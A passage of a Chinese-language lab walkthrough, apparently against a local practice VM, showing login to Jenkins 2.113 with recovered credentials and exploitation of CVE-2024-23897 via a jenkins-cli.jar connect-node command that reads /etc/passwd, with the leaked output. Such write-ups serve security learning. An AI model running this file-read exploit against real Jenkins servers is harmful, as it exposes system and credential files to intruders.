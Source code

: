 - 先访问nmap扫描出来的`robots.txt` ,获得以下内容
    
    ```php
    # we don't want robots to click "build" links
    User-agent: *
    Disallow: /
    ```
    
    感觉也没啥利用的
    
- 回到登陆页面，尝试使用之前获得的用户信息登录
    
    发现 `eder:vipsu` 可以登录进去
    
- 进入后台，仔细挖掘一些有用的设置
    
    `Jenkins CLI , 脚本命令行 , 系统信息` 等都是我们感兴趣的
    
    ![image.png](image%209.png)
    
    进入`关于jenkins` ，发现版本是 `2.113`
    

## 漏洞利用

- 查阅信息，发现存在任意文件读取 **CVE-2024-23897，**我们尝试利用
    
    > [https://blog.csdn.net/qq_34594929/article/details/136446671](https://blog.csdn.net/qq_34594929/article/details/136446671)
    > 
- 进入`Jenkins CLI` ，下载 `Jenkins-cli.jar`
- 然后到 `管理Jenkins` →`全局安全设置` →`勾选匿名用户具有可读权限`
- 打开kali命令行输入，获得`/etc/passwd`
    
    ```php
    java -jar jenkins-cli.jar -s http://192.168.75.135:8080 connect-node '@/etc/passwd'
    //
    icked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin: No such agent "ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin" exists.
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin: No such agent "systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin" exists.
    daemon:x:2:2:daemon:/sbin:/sbin/nologin: No such agent "daemon:x:2:2:daemon:/sbin:/sbin/nologin" exists.
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin: No such agent "lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin" exists.
    root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
    jenkins:x:997:995:Jenkins Automation Server:/var/lib/jenkins:/bin/false: No such agent "jenkins:x:997:995:Jenkins Automation Server:/var/lib/jenkins:/bin/false" exists.
    adm:x:3:4:adm:/var/adm:/sbin/nologin: No such agent "adm:x:3:4:adm:/var/adm:/sbin/nologin" exists.
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown: No such agent "shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown" exists.
    sync:x:5:0:sync:/sbin:/bin/sync: No such agent "sync:x:5:0:sync:/sbin:/bin/sync" exists.
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin: No such agent "mail:x:8:12:mail:/var/spool/mail:/sbin/nologin" exists.
    dbus:x:81:81:System message bus:/:/sbin/nologin: No such agent "dbus:x:81:81:System message bus:/:/sbin/nologin" exists.
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin: No such agent "postfix:x:89:89::/var/spool/postfix:/sbin/nologin" exists.
    operator:x:11:0:operator:/root:/sbin/nologin: No such agent "operator:x:11:0:operator:/root:/sbin/nologin" exists.